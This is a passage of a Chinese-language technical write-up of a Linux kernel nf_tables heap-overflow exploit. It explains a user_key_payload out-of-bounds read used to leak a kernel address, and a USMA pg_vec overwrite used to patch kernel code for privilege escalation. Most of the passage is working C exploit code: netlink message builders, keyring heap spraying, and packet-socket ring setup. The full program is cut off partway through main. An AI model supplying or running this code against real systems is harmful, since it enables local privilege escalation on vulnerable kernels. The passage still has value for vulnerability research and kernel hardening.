void add_elem_to_nft_set(int nlsock, const char *set_name, uint32_t set_keylen, const char *table_name, uint32_t id, uint32_t data_len, uint8_t *data) { struct msghdr msg; struct sockaddr_nl dest_nl; struct nlmsghdr *nlh_batch_begin; struct nlmsghdr *nlh_payload; struct nlmsghdr *nlh_batch_end; struct nfgenmsg *nfgm; struct nlattr *attr; uint64_t nlh_payload_size; uint64_t nested_attr_size; size_t first_element_size; size_t second_element_size; struct iovec iov[3]; memset(&dest_nl, 0, sizeof(dest_nl)); dest_nl.nl_family = AF_NETLINK; memset(&msg, 0, sizeof(msg)); nlh_batch_begin = make_bacth_begin_nlmsghdr(); nlh_batch_end = make_bacth_end_nlmsghdr(); memset(iov, 0, sizeof(iov)); /** Precompute the size of the nested field **/ nested_attr_size = 0; /*** First element ***/ nested_attr_size += sizeof(struct nlattr); // Englobing attribute nested_attr_size += sizeof(struct nlattr); // NFTA_SET_ELEM_KEY nested_attr_size += NLA_BIN_SIZE(set_keylen); // NFTA_DATA_VALUE nested_attr_size += sizeof(struct nlattr); // NFTA_SET_ELEM_DATA nested_attr_size += NLA_ALIGN(NLA_BIN_SIZE(data_len)); // NFTA_DATA_VALUE first_element_size = nested_attr_size; /*** Second element ***/ nested_attr_size += sizeof(struct nlattr); // Englobing attribute nested_attr_size += sizeof(struct nlattr); // NFTA_SET_ELEM_KEY nested_attr_size += NLA_BIN_SIZE(set_keylen); // NFTA_DATA_VALUE nested_attr_size += sizeof(struct nlattr); // NFTA_SET_ELEM_DATA nested_attr_size += sizeof(struct nlattr); // NFTA_DATA_VERDICT nested_attr_size += U32_NLA_SIZE; // NFTA_VERDICT_CODE second_element_size = nested_attr_size - first_element_size; nlh_payload_size = sizeof(struct nfgenmsg); // Mandatory nlh_payload_size += sizeof(struct nlattr); // NFTA_SET_ELEM_LIST_ELEMENTS nlh_payload_size += nested_attr_size; // All the stuff described above nlh_payload_size += S8_NLA_SIZE; // NFTA_SET_ELEM_LIST_TABLE nlh_payload_size += S8_NLA_SIZE; // NFTA_SET_ELEM_LIST_SET nlh_payload_size += U32_NLA_SIZE; // NFTA_SET_ELEM_LIST_SET_ID nlh_payload_size = NLMSG_SPACE(nlh_payload_size); /** Allocation **/ nlh_payload = (struct nlmsghdr *)malloc(nlh_payload_size); if (nlh_payload == NULL) { fprintf(stderr, "[-] oom\n"); exit(2); } memset(nlh_payload, 0, nlh_payload_size); /** Fill the required fields **/ nlh_payload->nlmsg_len = nlh_payload_size; nlh_payload->nlmsg_type = (NFNL_SUBSYS_NFTABLES << 8) | NFT_MSG_NEWSETELEM; nlh_payload->nlmsg_pid = getpid(); nlh_payload->nlmsg_flags = NLM_F_REQUEST; nlh_payload->nlmsg_seq = 0; nfgm = (struct nfgenmsg *)NLMSG_DATA(nlh_payload); nfgm->nfgen_family = NFPROTO_INET; /** Setup the attributes */ attr = (struct nlattr *)((void *)nlh_payload + NLMSG_SPACE(sizeof(struct nfgenmsg))); attr = set_str8_attr(attr, NFTA_SET_ELEM_LIST_TABLE, table_name); attr = set_str8_attr(attr, NFTA_SET_ELEM_LIST_SET, set_name); attr = set_u32_attr(attr, NFTA_SET_ELEM_LIST_SET_ID, id); attr = set_nested_attr(attr, NFTA_SET_ELEM_LIST_ELEMENTS, nested_attr_size); /*** First element ***/ attr = set_nested_attr(attr, 0, first_element_size - 4); attr = set_nested_attr(attr, NFTA_SET_ELEM_KEY, NLA_BIN_SIZE(set_keylen)); attr = set_binary_attr(attr, NFTA_DATA_VALUE, (uint8_t *)zerobuf, set_keylen); attr = set_nested_attr(attr, NFTA_SET_ELEM_DATA, NLA_BIN_SIZE(data_len)); attr = set_binary_attr(attr, NFTA_DATA_VALUE, (uint8_t *)data, data_len); /*** Second element ***/ attr = set_nested_attr(attr, 0, second_element_size - 4); attr = set_nested_attr(attr, NFTA_SET_ELEM_KEY, NLA_BIN_SIZE(set_keylen)); attr = set_binary_attr(attr, NFTA_DATA_VALUE, (uint8_t *)zerobuf, set_keylen); attr = set_nested_attr(attr, NFTA_SET_ELEM_DATA, U32_NLA_SIZE + sizeof(struct nlattr)); attr = set_nested_attr(attr, NFTA_DATA_VERDICT, U32_NLA_SIZE); set_u32_attr(attr, NFTA_VERDICT_CODE, NFT_CONTINUE); iov[0].iov_base = nlh_batch_begin; iov[0].iov_len = nlh_batch_begin->nlmsg_len; iov[1].iov_base = nlh_payload; iov[1].iov_len = nlh_payload->nlmsg_len; iov[2].iov_base = nlh_batch_end; iov[2].iov_len = nlh_batch_end->nlmsg_len; msg.msg_name = &dest_nl; msg.msg_namelen = sizeof(dest_nl); msg.msg_iov = iov; msg.msg_iovlen = 3; int nbytes; if ((nbytes = sendmsg(nlsock, &msg, 0)) <= 0) { perror("[-] sendmsg(create set)"); close(nlsock); exit(1); } printf("[!] %d bytes sent\n", nbytes); perror(" sendmsg"); free(nlh_batch_begin); free(nlh_payload); free(nlh_batch_end); return; }
5.5. leak
由于 msg_msg 结构体使用 GFP_KERNEL_ACCOUNT 在 v5.14 之后通过 kmalloc-cg 分配，所以无法使用这个结构体对高于该版本的内核实现利用（虽然我用的是 v5.11.14）。不过对于 kmalloc-64 还可以通过 user_key_payload 结构体实现 leak 。这里有对他的详细分析（这里不写了，篇幅过长）结构体定义如下：
struct user_key_payload { struct rcu_head rcu; /* RCU destructor */ unsigned short datalen; /* length of this data */ char data[] __aligned(__alignof__(u64)); /* actual data */ };
只要控制其中的 datalen 字段就可以实现越界读。我们的做法就是喷射一些 user_key_payload ，然后隔着 free 掉几个，最后让 elem 占位，溢出 16 + 2 个字节即可控制。
key_serial_t *fenshui_key = spray_keyring(N_SPRAY_KEYRING); // simple heap fenshui: fill holes key_serial_t *keyrings = spray_keyring(N_SPRAY_KEYRING); // spray kmalloc-64 for (int i = 10; i < N_SPRAY_KEYRING; i += 10) { key_unlink(keyrings[i]); } memset(&leak_payload, 0, sizeof(leak_payload)); leak_payload.len = USHRT_MAX - 1; int oob_idx = -1; int ntry = 10; while (1) { add_elem_to_nft_set(nlsock, LEAK_SET_NAME, KMALLOC64_KEYLEN, TABLENAME, 1337, sizeof(leak_payload), (uint8_t *)&leak_payload); for (int i = 0; i < N_SPRAY_KEYRING; i++) { memset(buf, 0, sizeof(buf)); nbytes = key_read(keyrings[i], buf, sizeof(buf)); if (nbytes < 0) { continue; } if (nbytes == USHRT_MAX - 1) { printf("[+] oob read!\n"); oob_idx = i; break; } } if (oob_idx != -1) { break; } if (ntry) { ntry--; } else { fprintf(stderr, "[-] failed to do oob read\n"); exit(1); } }
需要注意的是 key 的申请数量有上限，可以通过 sysctl kernel.keys.maxkeys 获得（ubuntu 22.04 默认为 200）。由于我们喷的数量偏小，所以需要多次尝试占位，知道修改 datalen 成功为止。
可以越界读了之后我们通过 KEYCTL_REVOKE 来释放 user_key_payload 。由于 user_key_payload 是 rcu 的，有 struct rcu_head rcu 字段存在，所以我们也可以通过它来实现 leak
void user_revoke(struct key *key) { struct user_key_payload *upayload = user_key_payload_locked(key); /* clear the quota */ key_payload_reserve(key, 0); if (upayload) { rcu_assign_keypointer(key, NULL); call_rcu(&upayload->rcu, user_free_payload_rcu); } }
可见这里会通过 call_rcu 来删除一个 payload 。在 call_rcu 中会把 user_free_payload_rcu 写到 head->func 中
static void __call_rcu(struct rcu_head *head, rcu_callback_t func) { // ... head->func = func; // ... }
所以能越界读之后我们 revoke 掉所有其他的 key 然后再 read 一次，就能把 user_free_payload_rcu 读出来实现 leak 。
for (int i = 0; i < N_SPRAY_KEYRING; i++) { if (i != oob_idx) { key_revoke(keyrings[i]); } } key_read(keyrings[oob_idx], buf, sizeof(buf)); uint64_t user_free_payload_rcu_addr = *(uint64_t *)((uint8_t *)buf + 0x30); printf("user_free_payload_rcu: 0x%lx\n", user_free_payload_rcu_addr); if (user_free_payload_rcu_addr < 0xffffffff81000000) { fprintf(stderr, "[-] failed to leak, read 0x%lx\n", user_free_payload_rcu_addr); exit(2); }
5.6. USMA
尝试使用 360 提出的 USMA 方法进行进一步利用，发现很好用的样子。感觉简直有点像 pipe primitive 这样的利用方式——不需要 hard code 偏移，而且可以绕过主流安全保护。简单的来说，就是 packet socket 这种 socket 支持创建内核共享环形缓冲区，这个缓冲区中的页可以通过 packet_mmap 直接映射到用户态用于加速数据的传输——不需要切换特权级了。而环形缓冲区中的所有页由一个 pgv[] 数组维护，如下
struct pgv { char *buffer; }; struct packet_ring_buffer { struct pgv *pg_vec; // ...
我们可以控制申请的页数来让 pg_vec 占位到 kmalloc-64 中（即 5-8 页），然后通过堆溢出直接改写数组中的 buffer 指向的内核虚拟地址，这样在 packet_mmap 之后就可以直接改写内核页的数据，执行 shellcode 提权。
这里我们的利用方法还是堆喷一些 pg_vec 然后隔空释放几个。尝试占位到空洞中然后改写 pg_vec 指向的内存页，为了不需要硬编码偏移，我们可以直接把它指向 leak 出来的 user_free_payload_rcu 函数所在的几个内存页，之后直接把该函数改写成我们的 shellcode ，再通过一次 user_revoke 触发即可。
当然也可以按文章说的，改写 setuid ，这样会更方便（不需要自己构造一套 shellcode 了）。
效果大致如下

6. exp
简单的 demo ，可以改写 user_free_payload_rcu 函数头为 0xCC 。
#define _GNU_SOURCE #include <fcntl.h> #include <sched.h> #include <stdio.h> #include <stdlib.h> #include <string.h> #include <unistd.h> #include <errno.h> #include <limits.h> #include <sys/socket.h> #include <sys/types.h> #include <sys/syscall.h> #include <sys/mman.h> #include <keyutils.h> #include <netinet/in.h> #include <arpa/inet.h> #include <linux/if_packet.h> #include <net/if.h> #include <net/ethernet.h> #include <libmnl/libmnl.h> #include <linux/netlink.h> #include <linux/netfilter.h> #include <linux/netfilter/nf_tables.h> #include <linux/netfilter/nfnetlink.h> #include <linux/netfilter/nfnetlink_queue.h> #define PAGE_SIZE 0x1000 void write_file(const char *filename, char *text) { int fd = open(filename, O_RDWR); write(fd, text, strlen(text)); close(fd); } void new_ns(void) { uid_t uid = getuid(); gid_t gid = getgid(); char buffer[0x100]; if (unshare(CLONE_NEWUSER | CLONE_NEWNS)) { perror("unshare(CLONE_NEWUSER | CLONE_NEWNS)"); exit(1); } if (unshare(CLONE_NEWNET)) { perror("unshare(CLONE_NEWNET)"); exit(1); } write_file("/proc/self/setgroups", "deny"); snprintf(buffer, sizeof(buffer), "0 %d 1", uid); write_file("/proc/self/uid_map", buffer); snprintf(buffer, sizeof(buffer), "0 %d 1", gid); write_file("/proc/self/gid_map", buffer); } // netlink helper struct nlmsghdr *make_bacth_begin_nlmsghdr() { struct nlmsghdr *nlh = (struct nlmsghdr *)malloc(NLMSG_SPACE(sizeof(struct nfgenmsg))); if (nlh == NULL) { fprintf(stderr, "[-] malloc\n"); exit(2); } struct nfgenmsg *nfgm = NLMSG_DATA(nlh); memset(nlh, 0, NLMSG_SPACE(sizeof(struct nfgenmsg))); nlh->nlmsg_flags = 0; nlh->nlmsg_seq = 0; nlh->nlmsg_len = NLMSG_SPACE(sizeof(struct nfgenmsg)); nlh->nlmsg_pid = getpid(); nlh->nlmsg_type = NFNL_MSG_BATCH_BEGIN; nfgm->res_id = NFNL_SUBSYS_NFTABLES; return nlh; } struct nlmsghdr *make_bacth_end_nlmsghdr() { struct nlmsghdr *nlh = (struct nlmsghdr *)malloc(NLMSG_SPACE(sizeof(struct nfgenmsg))); if (nlh == NULL) { fprintf(stderr, "[-] malloc\n"); exit(2); } memset(nlh, 0, NLMSG_SPACE(sizeof(struct nfgenmsg))); nlh->nlmsg_flags = NLM_F_REQUEST; nlh->nlmsg_seq = 0; nlh->nlmsg_len = NLMSG_SPACE(sizeof(struct nfgenmsg)); nlh->nlmsg_pid = getpid(); nlh->nlmsg_type = NFNL_MSG_BATCH_END; return nlh; } // Netlink attributes #define U32_NLA_SIZE (sizeof(struct nlattr) + sizeof(uint32_t)) #define U64_NLA_SIZE (sizeof(struct nlattr) + sizeof(uint64_t)) #define S8_NLA_SIZE (sizeof(struct nlattr) + 8) #define NLA_BIN_SIZE(x) (sizeof(struct nlattr) + x) #define NLA_ATTR(attr) ((void *)attr + NLA_HDRLEN) #define TABLEMSG_SIZE NLMSG_SPACE(sizeof(struct nfgenmsg) + S8_NLA_SIZE) #define KMALLOC64_KEYLEN \ (64 - 8 - 12 - \ 16) // Max size - elemsize - sizeof(nft_set_ext)(align) - min datasize const uint8_t zerobuf[0x1000] = {0}; // set_nested_attr(): Prepare a nested netlink attribute struct nlattr *set_nested_attr(struct nlattr *attr, uint16_t type, uint16_t data_len) { attr->nla_type = type; attr->nla_len = NLA_ALIGN(data_len + sizeof(struct nlattr)); return (void *)attr + sizeof(struct nlattr); } // set_u32_attr(): Prepare an integer netlink attribute struct nlattr *set_u32_attr(struct nlattr *attr, uint16_t type, uint32_t value) { attr->nla_type = type; attr->nla_len = U32_NLA_SIZE; *(uint32_t *)NLA_ATTR(attr) = htonl(value); return (void *)attr + U32_NLA_SIZE; } // set_u64_attr(): Prepare a 64 bits integer netlink attribute struct nlattr *set_u64_attr(struct nlattr *attr, uint16_t type, uint64_t value) { attr->nla_type = type; attr->nla_len = U64_NLA_SIZE; *(uint64_t *)NLA_ATTR(attr) = htobe64(value); return (void *)attr + U64_NLA_SIZE; } // set_str8_attr(): Prepare a 8 bytes long string netlink attribute // @name: Buffer to copy into the attribute struct nlattr *set_str8_attr(struct nlattr *attr, uint16_t type, const char name[8]) { attr->nla_type = type; attr->nla_len = S8_NLA_SIZE; memcpy(NLA_ATTR(attr), name, 8); return (void *)attr + S8_NLA_SIZE; } /** * set_binary_attr(): Prepare a byte array netlink attribute * @attr: Attribute to fill * @type: Type of the attribute * @buffer: Buffer with data to send * @buffer_size: Size of the previous buffer */ struct nlattr *set_binary_attr(struct nlattr *attr, uint16_t type, uint8_t *buffer, uint64_t buffer_size) { attr->nla_type = type; attr->nla_len = NLA_BIN_SIZE(buffer_size); memcpy(NLA_ATTR(attr), buffer, buffer_size); return (void *)attr + NLA_ALIGN(NLA_BIN_SIZE(buffer_size)); } // nf_tables helper // // @nlsock: netlink socket to nf_tables // @name: name of the table to create void create_nft_table(int nlsock, const char *name) { struct sockaddr_nl dest_nl; struct msghdr msg; struct nlmsghdr *nlh_batch_begin; struct nlmsghdr *nlh_payload; struct nlmsghdr *nlh_batch_end; struct nfgenmsg *nfgm; struct nlattr *nla; struct iovec iov[3]; memset(&dest_nl, 0, sizeof(dest_nl)); dest_nl.nl_family = AF_NETLINK; memset(&msg, 0, sizeof(msg)); nlh_batch_begin = make_bacth_begin_nlmsghdr(); // create a table message nlh_payload = (struct nlmsghdr *)malloc(TABLEMSG_SIZE); if (nlh_payload == NULL) { fprintf(stderr, "[-] malloc\n"); exit(1); } memset(nlh_payload, 0, sizeof(*nlh_payload)); nlh_payload->nlmsg_flags = NLM_F_REQUEST; nlh_payload->nlmsg_len = TABLEMSG_SIZE; nlh_payload->nlmsg_pid = getpid(); nlh_payload->nlmsg_seq = 0; nlh_payload->nlmsg_type = (NFNL_SUBSYS_NFTABLES << 8) | NFT_MSG_NEWTABLE; nfgm = NLMSG_DATA(nlh_payload); nfgm->nfgen_family = NFPROTO_INET; nla = (void *)nlh_payload + NLMSG_SPACE(sizeof(struct nfgenmsg)); set_str8_attr(nla, NFTA_TABLE_NAME, name); nlh_batch_end = make_bacth_end_nlmsghdr(); // put theme into iovec memset(iov, 0, sizeof(iov)); iov[0].iov_base = nlh_batch_begin; iov[0].iov_len = nlh_batch_begin->nlmsg_len; iov[1].iov_base = nlh_payload; iov[1].iov_len = nlh_payload->nlmsg_len; iov[2].iov_base = nlh_batch_end; iov[2].iov_len = nlh_batch_end->nlmsg_len; msg.msg_name = &dest_nl; msg.msg_namelen = sizeof(dest_nl); msg.msg_iov = iov; msg.msg_iovlen = 3; int nbytes; if ((nbytes = sendmsg(nlsock, &msg, 0)) <= 0) { perror("[-] sendmsg(create table)"); close(nlsock); exit(1); } printf("[!] %d bytes sent\n", nbytes); perror(" sendmsg"); free(nlh_batch_begin); free(nlh_payload); free(nlh_batch_end); } void create_nft_set(int nlsock, const char *set_name, uint32_t set_key_len, uint32_t set_data_len, const char *table_name, uint32_t id) { struct msghdr msg; struct sockaddr_nl dest_nl; struct nlmsghdr *nlh_batch_begin; struct nlmsghdr *nlh_payload; struct nlmsghdr *nlh_batch_end; struct nfgenmsg *nfgm; struct nlattr *nla; struct iovec iov[3]; memset(&dest_nl, 0, sizeof(dest_nl)); dest_nl.nl_family = AF_NETLINK; memset(&msg, 0, sizeof(msg)); nlh_batch_begin = make_bacth_begin_nlmsghdr(); nlh_batch_end = make_bacth_end_nlmsghdr(); size_t nlh_payload_size = sizeof(struct nfgenmsg); nlh_payload_size += S8_NLA_SIZE * 2; // NFTA_SET_TABLE && NFTA_SET_NAME nlh_payload_size += U32_NLA_SIZE * 5; // NFTA_SET_[ID|KEY_LEN|FLAGS|DATA_TYPE|DATA_LEN] nlh_payload_size = NLMSG_SPACE(nlh_payload_size); nlh_payload = (struct nlmsghdr *)malloc(nlh_payload_size); memset(nlh_payload, 0, nlh_payload_size); nlh_payload->nlmsg_flags = NLM_F_REQUEST | NLM_F_CREATE; nlh_payload->nlmsg_len = nlh_payload_size; nlh_payload->nlmsg_pid = getpid(); nlh_payload->nlmsg_seq = 0; nlh_payload->nlmsg_type = (NFNL_SUBSYS_NFTABLES << 8) | NFT_MSG_NEWSET; nfgm = (struct nfgenmsg *)NLMSG_DATA(nlh_payload); nfgm->nfgen_family = NFPROTO_INET; nla = (void *)nlh_payload + NLMSG_SPACE(sizeof(struct nfgenmsg)); nla = set_str8_attr(nla, NFTA_SET_TABLE, table_name); nla = set_str8_attr(nla, NFTA_SET_NAME, set_name); nla = set_u32_attr(nla, NFTA_SET_ID, id); nla = set_u32_attr(nla, NFTA_SET_KEY_LEN, set_key_len); nla = set_u32_attr(nla, NFTA_SET_DATA_LEN, set_data_len); nla = set_u32_attr(nla, NFTA_SET_DATA_TYPE, 0); nla = set_u32_attr(nla, NFTA_SET_FLAGS, NFT_SET_MAP); memset(iov, 0, sizeof(iov)); iov[0].iov_base = nlh_batch_begin; iov[0].iov_len = nlh_batch_begin->nlmsg_len; iov[1].iov_base = nlh_payload; iov[1].iov_len = nlh_payload->nlmsg_len; iov[2].iov_base = nlh_batch_end; iov[2].iov_len = nlh_batch_end->nlmsg_len; msg.msg_name = &dest_nl; msg.msg_namelen = sizeof(dest_nl); msg.msg_iov = iov; msg.msg_iovlen = 3; int nbytes; if ((nbytes = sendmsg(nlsock, &msg, 0)) <= 0) { perror("[-] sendmsg(create set)"); close(nlsock); exit(1); } printf("[!] %d bytes sent\n", nbytes); perror(" sendmsg"); free(nlh_batch_begin); free(nlh_payload); free(nlh_batch_end); return; } void add_elem_to_nft_set(int nlsock, const char *set_name, uint32_t set_keylen, const char *table_name, uint32_t id, uint32_t data_len, uint8_t *data) { struct msghdr msg; struct sockaddr_nl dest_nl; struct nlmsghdr *nlh_batch_begin; struct nlmsghdr *nlh_payload; struct nlmsghdr *nlh_batch_end; struct nfgenmsg *nfgm; struct nlattr *attr; uint64_t nlh_payload_size; uint64_t nested_attr_size; size_t first_element_size; size_t second_element_size; struct iovec iov[3]; memset(&dest_nl, 0, sizeof(dest_nl)); dest_nl.nl_family = AF_NETLINK; memset(&msg, 0, sizeof(msg)); nlh_batch_begin = make_bacth_begin_nlmsghdr(); nlh_batch_end = make_bacth_end_nlmsghdr(); memset(iov, 0, sizeof(iov)); /** Precompute the size of the nested field **/ nested_attr_size = 0; /*** First element ***/ nested_attr_size += sizeof(struct nlattr); // Englobing attribute nested_attr_size += sizeof(struct nlattr); // NFTA_SET_ELEM_KEY nested_attr_size += NLA_BIN_SIZE(set_keylen); // NFTA_DATA_VALUE nested_attr_size += sizeof(struct nlattr); // NFTA_SET_ELEM_DATA nested_attr_size += NLA_ALIGN(NLA_BIN_SIZE(data_len)); // NFTA_DATA_VALUE first_element_size = nested_attr_size; /*** Second element ***/ nested_attr_size += sizeof(struct nlattr); // Englobing attribute nested_attr_size += sizeof(struct nlattr); // NFTA_SET_ELEM_KEY nested_attr_size += NLA_BIN_SIZE(set_keylen); // NFTA_DATA_VALUE nested_attr_size += sizeof(struct nlattr); // NFTA_SET_ELEM_DATA nested_attr_size += sizeof(struct nlattr); // NFTA_DATA_VERDICT nested_attr_size += U32_NLA_SIZE; // NFTA_VERDICT_CODE second_element_size = nested_attr_size - first_element_size; nlh_payload_size = sizeof(struct nfgenmsg); // Mandatory nlh_payload_size += sizeof(struct nlattr); // NFTA_SET_ELEM_LIST_ELEMENTS nlh_payload_size += nested_attr_size; // All the stuff described above nlh_payload_size += S8_NLA_SIZE; // NFTA_SET_ELEM_LIST_TABLE nlh_payload_size += S8_NLA_SIZE; // NFTA_SET_ELEM_LIST_SET nlh_payload_size += U32_NLA_SIZE; // NFTA_SET_ELEM_LIST_SET_ID nlh_payload_size = NLMSG_SPACE(nlh_payload_size); /** Allocation **/ nlh_payload = (struct nlmsghdr *)malloc(nlh_payload_size); if (nlh_payload == NULL) { fprintf(stderr, "[-] oom\n"); exit(2); } memset(nlh_payload, 0, nlh_payload_size); /** Fill the required fields **/ nlh_payload->nlmsg_len = nlh_payload_size; nlh_payload->nlmsg_type = (NFNL_SUBSYS_NFTABLES << 8) | NFT_MSG_NEWSETELEM; nlh_payload->nlmsg_pid = getpid(); nlh_payload->nlmsg_flags = NLM_F_REQUEST; nlh_payload->nlmsg_seq = 0; nfgm = (struct nfgenmsg *)NLMSG_DATA(nlh_payload); nfgm->nfgen_family = NFPROTO_INET; /** Setup the attributes */ attr = (struct nlattr *)((void *)nlh_payload + NLMSG_SPACE(sizeof(struct nfgenmsg))); attr = set_str8_attr(attr, NFTA_SET_ELEM_LIST_TABLE, table_name); attr = set_str8_attr(attr, NFTA_SET_ELEM_LIST_SET, set_name); attr = set_u32_attr(attr, NFTA_SET_ELEM_LIST_SET_ID, id); attr = set_nested_attr(attr, NFTA_SET_ELEM_LIST_ELEMENTS, nested_attr_size); /*** First element ***/ attr = set_nested_attr(attr, 0, first_element_size - 4); attr = set_nested_attr(attr, NFTA_SET_ELEM_KEY, NLA_BIN_SIZE(set_keylen)); attr = set_binary_attr(attr, NFTA_DATA_VALUE, (uint8_t *)zerobuf, set_keylen); attr = set_nested_attr(attr, NFTA_SET_ELEM_DATA, NLA_BIN_SIZE(data_len)); attr = set_binary_attr(attr, NFTA_DATA_VALUE, (uint8_t *)data, data_len); /*** Second element ***/ attr = set_nested_attr(attr, 0, second_element_size - 4); attr = set_nested_attr(attr, NFTA_SET_ELEM_KEY, NLA_BIN_SIZE(set_keylen)); attr = set_binary_attr(attr, NFTA_DATA_VALUE, (uint8_t *)zerobuf, set_keylen); attr = set_nested_attr(attr, NFTA_SET_ELEM_DATA, U32_NLA_SIZE + sizeof(struct nlattr)); attr = set_nested_attr(attr, NFTA_DATA_VERDICT, U32_NLA_SIZE); set_u32_attr(attr, NFTA_VERDICT_CODE, NFT_CONTINUE); iov[0].iov_base = nlh_batch_begin; iov[0].iov_len = nlh_batch_begin->nlmsg_len; iov[1].iov_base = nlh_payload; iov[1].iov_len = nlh_payload->nlmsg_len; iov[2].iov_base = nlh_batch_end; iov[2].iov_len = nlh_batch_end->nlmsg_len; msg.msg_name = &dest_nl; msg.msg_namelen = sizeof(dest_nl); msg.msg_iov = iov; msg.msg_iovlen = 3; int nbytes; if ((nbytes = sendmsg(nlsock, &msg, 0)) <= 0) { perror("[-] sendmsg(create set)"); close(nlsock); exit(1); } printf("[!] %d bytes sent\n", nbytes); perror(" sendmsg"); free(nlh_batch_begin); free(nlh_payload); free(nlh_batch_end); return; } #define TABLENAME "exptblaa" #define LEAK_SET_NAME "expsetaa" #define WRITE_SET_NAME "expsetbb" // keyring // we use user key type // struct user_key_payload { // struct rcu_head rcu; /* RCU destructor */ // unsigned short datalen; /* length of this data */ // char data[] __aligned(__alignof__(u64)); /* actual data */ // }; // header size: 0x18 #define PREFIX_BUF_LEN 16 #define RCU_HEAD_LEN 16 struct keyring_payload { uint8_t prefix[PREFIX_BUF_LEN]; // pad - not overflowed uint8_t rcu_buf[RCU_HEAD_LEN]; // pad - user_key_payload->rcu unsigned short len; // user_key_payload->datalen }; struct pg_vec_write_payload { uint8_t prefix[PREFIX_BUF_LEN]; // pad - not overflowed uint64_t buff[5]; // pg_vec[] }; key_serial_t key_alloc(char *description, char *payload, int payload_len) { return syscall(__NR_add_key, "user", description, payload, payload_len, KEY_SPEC_PROCESS_KEYRING); } int key_update(key_serial_t keyid, char *payload, size_t plen) { return syscall(__NR_keyctl, KEYCTL_UPDATE, keyid, payload, plen); } int key_read(key_serial_t keyid, char *buffer, size_t buflen) { return syscall(__NR_keyctl, KEYCTL_READ, keyid, buffer, buflen); } int key_revoke(key_serial_t keyid) { return syscall(__NR_keyctl, KEYCTL_REVOKE, keyid, 0, 0, 0); } int key_unlink(key_serial_t keyid) { return syscall(__NR_keyctl, KEYCTL_UNLINK, keyid, KEY_SPEC_PROCESS_KEYRING); } #define MAX_KEYS 200 #define N_SPRAY_KEYRING (MAX_KEYS / 2) #define N_FENSHUI_KEYRING (MAX_KEYS / 4) key_serial_t *spray_keyring(int n_spray) { char key_desc[0x20] = {}; // max 0x20 because i don't want it tanit kmalloc-64 key_serial_t *ids = calloc(n_spray, sizeof(key_serial_t)); if (ids == NULL) { fprintf(stderr, "[-] oom\n"); return NULL; } for (int i = 0; i < n_spray; i++) { snprintf(key_desc, sizeof(key_desc), "AAAAAAAA\xAA%03d", i); // 24 + 8 + 4 ids[i] = key_alloc(key_desc, key_desc, strlen(key_desc)); if (ids[i] < 0) { perror("[-] __NR_add_key"); exit(2); } } return ids; } // packet socket #define N_SPRAY_PACKET_SOCK 0x200 #define N_SPARY_PACKET_SOCK_HOLE 0x10 #define N_SPRAY_FENSHUI_PACKET_SOCK (N_SPRAY_PACKET_SOCK / 2) int packet_socket_setup(uint32_t block_size, uint32_t frame_size, uint32_t block_nr, uint32_t sizeof_priv, int timeout) { int s = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL)); if (s < 0) { perror("[-] socket (AF_PACKET)"); exit(1); } int v = TPACKET_V3; int rv = setsockopt(s, SOL_PACKET, PACKET_VERSION, &v, sizeof(v)); if (rv < 0) { perror("[-] setsockopt (PACKET_VERSION)"); exit(1); } struct tpacket_req3 req3; memset(&req3, 0, sizeof(req3)); req3.tp_sizeof_priv = sizeof_priv; req3.tp_block_nr = block_nr; req3.tp_block_size = block_size; req3.tp_frame_size = frame_size; req3.tp_frame_nr = (block_size * block_nr) / frame_size; req3.tp_retire_blk_tov = timeout; req3.tp_feature_req_word = 0; rv = setsockopt(s, SOL_PACKET, PACKET_RX_RING, &req3, sizeof(req3)); if (rv < 0) { perror("[-] setsockopt (PACKET_RX_RING)"); exit(1); } struct sockaddr_ll sa; memset(&sa, 0, sizeof(sa)); sa.sll_family = PF_PACKET; sa.sll_protocol = htons(ETH_P_ALL); sa.sll_ifindex = if_nametoindex("lo"); sa.sll_hatype = 0; sa.sll_halen = 0; sa.sll_pkttype = 0; sa.sll_halen = 0; rv = bind(s, (struct sockaddr *)&sa, sizeof(sa)); if (rv < 0) { perror("[-] bind (AF_PACKET)"); exit(1); } return s; } int pagealloc_pad(int count, int size) { return packet_socket_setup(size, 2048, count, 0, 1000); } const int8_t shellcode[] = {0xCC, 0xCC, 0xCC, 0xCC}; int main() { int nlsock; struct sockaddr_nl snl; struct keyring_payload leak_payload; static char buf[USHRT_MAX + 0x10] = {}; int nbytes; new_ns(); // create netlink socket nlsock = socket(AF_NETLINK, SOCK_DGRAM, NETLINK_NETFILTER); if (nlsock < 0) { perror("[-] socket"); return 1; } memset(&snl, 0, sizeof(snl)); snl.nl_family = AF_NETLINK; snl.nl_groups = 0; snl.nl_pid = getpid(); if (bind(nlsock, (struct sockaddr *)&snl, sizeof(snl))) { perror("[-] bind"); return 1; } printf("[+] NL sock binded\n"); create_nft_table(nlsock, TABLENAME); create_nft_set(nlsock, LEAK_SET_NAME, KMALLOC64_KEYLEN, sizeof(struct keyring_payload), TABLENAME, 1337); create_nft_set(nlsock, WRITE_SET_NAME, KMALLOC64_KEYLEN, sizeof(struct pg_vec_write_payload), TABLENAME, 7331); key_serial_t *fenshui_key = spray_keyring(N_FENSHUI_KEYRING); // simple heap fenshui: fill holes key_serial_t *keyrings = spray_keyring(N_SPRAY_KEYRING); // spray kmalloc-64 for (int i = 0; i < N_SPRAY_KEYRING; i += 10) { key_unlink(keyrings[i]); } memset(&leak_payload, 0, sizeof(leak_payload)); leak_payload.len = USHRT_MAX - 1; printf("[!] heap overflowing..\n"); int oob_idx = -1; int ntry = 50; while (1) { add_elem_to_nft_set(nlsock, LEAK_SET_NAME, KMALLOC64_KEYLEN, TABLENAME, 1337, sizeof(leak_payload), (uint8_t *)&leak_payload); for (int i = 0; i < N_SPRAY_KEYRING; i++) { memset(buf, 0, sizeof(buf)); nbytes = key_read(keyrings[i], buf, sizeof(buf)); if (nbytes < 0) { continue; } if (nbytes == USHRT_MAX - 1) { printf("[+] oob read!\n"); oob_idx = i; break; } } if (oob_idx != -1) { break; } if (ntry) { ntry--; } else { fprintf(stderr, "[-] failed to do oob read\n"); exit(1); } } for (int i = 0; i < N_SPRAY_KEYRING; i++) { if (i != oob_idx) { key_revoke(keyrings[i]); } } key_read(keyrings[oob_idx], buf, sizeof(buf)); uint64_t user_free_payload_rcu_addr = *(uint64_t *)((uint8_t *)buf + 0x30); if (user_free_payload_rcu_addr < 0xffffffff81000000) { fprintf(stderr, "[-] failed to leak, read 0x%lx\n", user_free_payload_rcu_addr); exit(2); } printf("[+] leak: user_free_payload_rcu: 0x%lx\n", user_free_payload_rcu_addr); // write to pg_vec // spray packet socket int 